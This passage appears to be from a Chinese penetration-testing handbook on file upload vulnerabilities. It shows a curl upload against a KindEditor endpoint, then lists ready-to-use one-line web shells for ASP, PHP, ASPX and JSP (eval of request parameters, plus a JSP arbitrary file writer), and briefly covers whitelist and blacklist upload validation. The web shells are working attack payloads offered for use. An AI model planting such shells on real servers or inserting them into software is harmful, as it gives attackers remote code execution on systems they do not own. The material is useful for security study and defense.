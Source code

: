     curl -F"imgFile=@1.html"http://127.0.0.1/test/kindeditor/php/upload_json.php?dir=file
    
        

参考文章：

    https://www.sinesafe.com/article/20190510/Kindeditor.html
    https://www.freebuf.com/column/202148.html   --上传思路
    
        

* * *

##### 2.2.9.1 上传漏洞总结

**上传总结**

###### 概要说明

文件上传漏洞可以说是日常渗透测试用得最多的一个漏洞，因为用它获得服务器权限最快最直接

**Asp一句话** ：

    <%eval request(“kkk”)%> 	kkk 
    
        

**Php一句话：**

    <?php eval($_POST[666]);?> 	666 
    
        

**Aspx一句话:**

    <%@ Page Language="Jscript"%><%eval(Request.Item["111"],"unsafe");%> 
    
        

**Jsp一句话：**

    <%
    if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());
    %>
    
        

参考一句话：

    https://my.oschina.net/u/4373914/blog/3467075
    
        

* * *

###### 服务端的上传验证

**1）白名单验证定义允许上传的后缀类型,除此所有后缓都不允许**

**2）黑名单验证**

定义不允许上传的后缀类型，除此之类其他后缀都可以上传

定义不允许上传的后缀：

    asp、aspx、asa、cer、cdx、ash 
    